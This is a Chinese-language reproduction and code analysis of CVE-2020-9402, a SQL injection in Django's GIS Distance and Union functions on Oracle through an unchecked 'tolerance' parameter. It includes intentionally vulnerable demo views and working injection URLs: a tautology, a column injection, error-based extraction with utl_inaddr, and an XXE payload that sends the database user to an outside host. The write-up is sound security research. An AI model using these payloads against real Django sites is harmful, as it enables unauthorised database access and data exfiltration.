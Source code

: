 # CVE-2020-9402 Django Geo sql注入

### 一、漏洞简介

Django 1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞。攻击者可借助特制的SQL语句利用该漏洞查看、添加、修改或删除数据库中的信息。

### 二、漏洞影响

Django 1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞

### 三、复现过程

根据官网的修复https://github.com/django/django/commit/6695d29b1c1ce979725816295a26ecc64ae0e927#diff-229e38ececbfc591f7a5e595bf5707c4，可以看到问题出在GIS的查询上面

![](images/15889973045194.png)

![](images/15889973112536.png)


官方只修复了这两个位置，可以发现基本上是对于tolerance参数进行判断是否为数字。那首先来了解一下GIS查询。

GIS查询API是一个地理位置的查询API，提供用户存储精确GPS的位置的数据模块，属于一个空间数据库，我们可以通过如下的经纬度信息


```bash
pnt = GEOSGeometry('POINT(-96.876369 29.905320)', srid=4326)

>>>SRID=4326;POINT (-96.876369 29.90532)
```

来获得一个具体的定位信息,通过如下的模块来构建一个基本的地理信息存储


```bash
from django.contrib.gis.db import models
class Names(models.Model):
    name = models.CharField(max_length=128)

    def __str__(self):
        return self.name

class Interstate(Names):
    path = models.LineStringField()
```

后台存储的时候发出path的信息为json数据，例如


```json
{"type":"LineString","coordinates":[[-8167.236601807093,-3286.248045708844],[-7896.285624495958,-3324.9553281818644],[1083.8039092445451,-654.1528375435246]]}
```

![](images/15889973628901.png)


我们就获得了一个基本的地理位置数据,同理，通过构造一个聚合的查询方法


```bash
def vuln(request):
    q = request.GET.get('q')
    qs=Interstate.objects.annotate(
            d=Distance(
                Point(-0.0733675346842369, -0.0295208671625432, srid=4326),
                Point(0.009735976166628611, -0.00587635491086091, srid=4326),
                tolerance = q, # default 0.05
            ),
        ).filter(d=D(m=1)).values('name')
```

因为官网文档找不到如何构造Point查询，因此为了省事，直接写死了Point数值。。srid为空间参考的投影设置，默认值为4326。其中tolerance是对于oracle特殊存在的一个键值，其作用是基本你的容错率，详细的信息可以参考oracle官方文档。对应的查询语句为


```sql
SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) =  1.0 FETCH FIRST 21 ROWS ONLY;
```

### 0x02代码分析

首先从传入一个url


```
http://127.0.0.1:8000/vuln/?q=20) = 1 OR 1=1 OR (1%2B1
```

从annotate聚合函数开始跟进，同普通的model函数查询一样，gis查询虽然拥有着单独的model模块，但依旧还是依靠着普通model中进行过滤和查询。从gis的model文件夹中的`__init__.py`文件中看

![](images/15889974670838.png)


主要的查询依然调用的是django最基本的db方法，而其中单独定义了function方法等一些对地理位置插叙独特的方法。程序运行到/django/db/models/manager.py文件中的_get_queryset_methods后，获取到tolerant参数之后便直接进入到gis模块中进行查询

![](images/15889974809337.png)


继而进入到django/contrib/gis/measure.py文件中的MeasureBase类中进行方法调用，那么后面的方法分析可以跳过，因此直接来到漏洞代码段。先来看gis API中的functions函数，在as_oracle方法这一段


```bash
def as_oracle(self, compiler, connection, **extra_context):
    tol = self.extra.get('tolerance', self.tolerance)
    return self.as_sql(
        compiler, connection,
        template="%%(function)s(%%(expressions)s, %s)" % tol,
        **extra_context
    )
```

tolerance 从self.extra.get导入，该方法会搜索全局变量的值，如果该值不存在，则直接设置为0.05，并且将其直接传入到新的变量中。之后则不对tol进行任何处理直接拼接到template字符串中并且传入as_sql方法。那么官方对于as_sql的文档是，此方法需要一个SQLCompiler对象，位于django/db/models/sql/compiler.py文件中。而我们只需要知道在该对象中有一个compile()方法，该方法可以返回一个包含SQL字符串的元祖，而SQLComiler对象中的query变量则是存储直接进行SQL查询语句的SQL命令。从而两个Point分别进入compile方法中进行拼接

![](images/15889975078108.png)


不知道为什么，用pycharm在as_oracle下断点的时候，第一次到达SQLCompiler的时候，pycharm不会在as_oracle函数中停下来，而是在第二次查询的时候才会停，但是经过测试确实是在进入SQLCompiler之前调用过as_orcle函数，可能是pycharm没有正确识别重载函数吧。之后template构造模版也因此进入到expression.py中的as_sql函数中进行字符串构造

![](images/15889975176723.png)


![](images/15889975239538.png)


因此最后进入oracle的命令语句是


```sql
SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) = 1 OR 1=1  OR (1+1) = 1.0 FETCH FIRST 21 ROWS ONLY;
```

![](images/15889975506642.png)


带入数据库中查询

![](images/15889975574531.png)


![](images/15889975617012.png)


官方修复的方法就是加入Value函数，判断传入的值是否为数字，否的话直接报错推出。那么第二个注入点就是Union了，建立Model


```
class City(Names):
    point = models.PointField()  # 点模块
```

编辑传入的参数为


```bash
{"type":"Point","coordinates":[13250.226757682816,68815.69380603009]}
```

view中设置查询


```
from django.contrib.gis.db.models import Union
def vuln2(request):
    q = request.GET.get('q')
    res = City.objects.aggregate(
            Union('point', tolerance=q),
    )
    return HttpResponse(res)
```

输入url


```
http://127.0.0.1:8000/vuln2?q=0.05)))%2C%20(((1
```

首先看结果，得到的SQL查询语句为


```sql
SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT",0.05))), (((1))) AS "POINT__UNION" FROM "APP_CITY";
```

![](images/15889976293890.png)


该aggregate查询方法是GIS查询特定的一种查询方法，为的是与地理查询的语句做适配,用法跟原模块的方法类似。因此跟进GIS模块中的聚合查询方法，位于django/contrib/gis/db/models/aggregates.py文件内的as_oracle方法。

![](images/15889976366437.png)


同样tolerance没有做任何检查直接传入了template模版语句中，原理与上面annotate查询过程一致。利用有大致两个方法
报错注入


```
http://localhost:8000/test/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v%24instance)) from dual) is null%20 OR (1%2B1
```

![](images/15889976525972.png)


CVE-2014-6577

因为Django自2.0以后支持的oracle版本为12以上，因此可以尝试oracle XXE来进行SQL的注入。同时因为在SQL处理的过程中有三次利用%的模版跳转，因此需要在XMLpayload中的%替换为%%%%，payload为


```
http://localhost:8000/test/?q=20) = 1 OR (select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%25%25%25%20remote%20SYSTEM%20%22http%3A%2F%2Fdocker.for.mac.host.internal%3A9000%2F'%7C%7C(SELECT%20user%20from%20dual)%7C%7C'%22%3E%20%25%25%25%25remote%3B%5D%3E')%2C'%2Fl')%20from%20dual)%20is%20not%20null OR (1%2B1
```

![](images/15889976735401.png)


命令执的话因为是docker起的oracle所以没有设置JAVA的环境，暂时也不能判定有没有，以后再研究看看。

参考链接

https://xz.aliyun.com/t/7403
